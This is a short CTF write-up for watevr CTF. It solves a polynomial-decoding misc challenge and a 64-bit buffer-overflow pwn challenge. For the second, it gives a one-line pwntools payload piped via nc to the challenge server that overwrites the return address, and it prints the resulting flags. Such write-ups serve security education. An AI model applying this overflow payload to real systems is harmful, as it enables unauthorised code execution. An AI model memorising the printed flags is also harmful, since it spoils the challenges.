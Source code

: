 Hey guys back with another set of few writeups

# **MISC**

## Polly-:
> description:

I sure do love my polly uh ehh i mean polynomials, heh. Yeah that's what I meant...

### Solution: 

We were given [polly.txt](scripts/polly.txt) file which contains the polynomial
and following observations I conlcuded from them:

1. Why there are mostly zeroes at the end of denominator in each coefficient
2. Then 119 is the ascii of 'w'.

then looking for more in direction of approach 2nd I thought, that 119 is the value of polynomial at value '0'.
So maybe 'a' will be the value of polynomial at x='1' as we know the flag format 'watevr{'.

Thus [scripting](scripts/poly.py) it in few lines using [sympy](https://www.sympy.org/).
I wonder though it has quite less solves :confused:
```python

from sympy import *
y=eval(open("polly.txt","r").read())
x=symbols('x')
print(''.join([chr(y.subs(x,i)) for i in range(57)]))
```

Here is our flag:
>   watevr{polly_polynomials_youtube.com/watch?v=THNWVVn9JO0}

# **PWN**

##  Voting Machine 1-:
> description:

In a world with many uncertainties we need some kind of structure. Democracy is a big part of that, therefore we need voting machines! Well, at least if they are safe...

### Solution: 

We were given 64 bit binary [kamikaze](scripts/kamikaze)

>kamikaze: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/l, for GNU/Linux 3.2.0, BuildID[sha1]=0e647f48bd36f15e866166910d10dd173fb0fcf6, not stripped

Upon finding functions `0x0000000000400807  super_secret_function` found this but main function wasn't redirecting it.
So basic buffer overflow challenge and set the return pointer to this function and then execute it . For offset calculation the buffer size was 2 so adding 8 bytes extra as in 64 bit binary to set the instruction pointer to the right location.

So one liner linux command for that:

`(python -c 'from pwn import p64;print "A"*10 +p64(0x00400807)') | nc 13.48.67.196 50000`


```
Hello and welcome to our voting application!
Today's vote will be regarding the administration of
watevr CTF.
the voting range is 0 to 10. 0 being the worst possible and 10 being the best possible.
Thanks!
Vote: Thanks for voting!
watevr{w3ll_th4t_w4s_pr3tty_tr1v1al_anyways_https://www.youtube.com/watch?v=Va4aF6rRdqU}
```


Here is our flag 

>   watevr{w3ll_th4t_w4s_pr3tty_tr1v1al_anyways_https://www.youtube.com/watch?v=Va4aF6rRdqU}



